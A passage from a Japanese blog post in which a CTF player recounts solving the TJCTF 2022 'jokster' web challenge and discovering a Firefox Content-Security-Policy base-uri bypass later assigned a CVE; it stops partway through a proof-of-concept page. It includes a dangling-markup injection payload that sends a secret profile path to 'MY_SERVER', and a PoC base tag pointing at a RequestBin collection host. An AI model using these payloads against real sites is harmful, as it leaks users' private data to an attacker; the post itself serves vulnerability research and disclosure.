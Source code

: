 # CTFをやっていたらFirefoxの脆弱性を見つけてCVEを貰った話

## はじめに
はじめまして、セキュリティエンジニア？のSatoki ([@satoki00](https://twitter.com/satoki00))です。今回は趣味でCTFをやっていたらFirefoxの(しょぼい)脆弱性を見つけてCVEを貰った話を置いておきます。ちなみに、技術的にはあまり役に立たない記事です。実は年末に書こうと思っていたのですが、修論の影響でかなり遅れました。

もし、他にFirefoxのバグを見つけた方は **[ここ](https://www.mozilla.org/en-US/security/bug-bounty/)** から報告してください。

## CTFをやる
時は遡り、2022/05/13に開催された[TJCTF 2022](https://ctftime.org/event/1599/)に参加し**jokster**なるWebジャンルの問題を解いていました。詳しくは[WriteUp](https://github.com/satoki/ctf_writeups/tree/master/TJCTF_2022/jokster)に書いてありますのでここでは簡単に触れます。

この問題ではジョーク投稿サイトとAdmin Botが動いており、Adminユーザのプロフィールページにフラグがあります。プロフィールページはBot以外でもアクセス可能なものの、URLはユーザごとにランダムに生成されるため予測不可能です。サイトの実装としては、全ページからaタグにより自身のプロフィールページが相対パスでリンクされています。よくある右上のプロフィールリンクです。BotはパスワードでAdminユーザとしてログインし、我々が送信した同一オリジンのURLをクロールします。つまり、何とかしてAdminユーザのトップページのプロフィールリンク(aタグのhref)を取得する必要があります。この問題はCSPが厳しく設定されているため任意のJavaScriptの実行はできませんが、HTMLタグがインジェクションできるという設定です。つまりXSSでfetchする手法は使えません。

この問題、実はCSPが`style-src 'self' fonts.googleapis.com;`であり、さらにプロフィール画像のファイルアップロード機能の拡張子チェックが不十分なことで、同一オリジンに.cssファイルを設置でき、CSSインジェクションでAdminユーザのプロフィールページのURLをリークできるものでした。

## 非想定解を考える
CTFの問題では、Adminユーザのトップページのaタグのhrefを取得することがゴールなのですが、ページのHTML内にシングルクォートとダブルクォートが混ざって利用されていました(運営のミス)。このため当初はbaseタグとimgタグを挿入し、baseタグに自身のサーバを指定、クォートの対応で属性値の判定範囲を壊して、aタグの中身をimgタグの読み込みリクエストに含めることでhrefをリークすることが可能なのではないかと考えました。

簡易的な例は以下になります。
```html
[HTMLタグ挿入可能場所]
<a href="/profile/secret">himitsu</a>   <!-- 欲しいパス -->
<a href='/xxxxx'>tekitou</a>            <!-- シングルクォートが利用されている箇所 -->
```
上記のようなコードがあるとして、HTMLタグ挿入可能場所に`<base href="https://MY_SERVER"><img src='/`を挿入します。
```html
<base href="https://MY_SERVER"><img src='/
<a href="/profile/secret">himitsu</a>
<a href='/xxxxx'>tekitou</a>
```
すると`/%3Ca%20href=%22/profile/secret%22%3Ehimitsu%3C/a%3E%3Ca%20href=`のリクエストが`https://MY_SERVER`に届きます。こうしてhrefの`secret`が取得できます。

実際に問題ではタグを壊してリクエストが受け取れましたが、改行などによりリークしたい箇所まで影響がないためこの手法では解けませんでした。また、なぜかAdmin Botへ送信した場合はリクエスト自体が受け取れませんでした。残念。

## ブラウザの挙動差を見つける
ここでサイトの情報を整理していると、不審なことに気づきます。**CSPに`base-uri 'self';`が含まれていました。** 先ほど指定した`https://MY_SERVER`は`self`ではありません。CSPでブロックされているはずのbaseタグの指定場所へimgタグのリクエストが到達したのは興味深い振る舞いです。

ここで以下のようなPoC(poc.html)を作成して、`https://satoki00.htmlbin.net/poc.html`に設置してみます。ここではリクエスト受信用として、RequestBinを利用しSecretとして適当なuuidを設定しました。Secretが何なのかは[悪用シナリオを考案する](#悪用シナリオを考案する)で説明します。ひとまず適当なファイル名だと思ってください。
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="Content-Security-Policy" content="base-uri 'self';">
</head>
<body>

<!-- RequestBin.com (https://requestbin.com/) -->
<base href="https://enxrik0wsjlor.x.pipedream.net/">

```